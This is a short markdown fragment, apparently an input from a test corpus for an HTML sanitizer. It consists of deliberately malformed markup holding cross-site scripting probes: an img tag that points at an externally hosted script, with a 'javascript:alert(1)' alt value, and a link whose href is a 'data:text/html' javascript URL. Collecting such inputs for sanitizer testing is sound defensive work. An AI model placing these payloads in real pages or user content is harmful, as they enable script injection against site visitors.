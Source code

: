 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<a href="data:text/html;javascript%3aalert(1)">Click Here</a>


](()
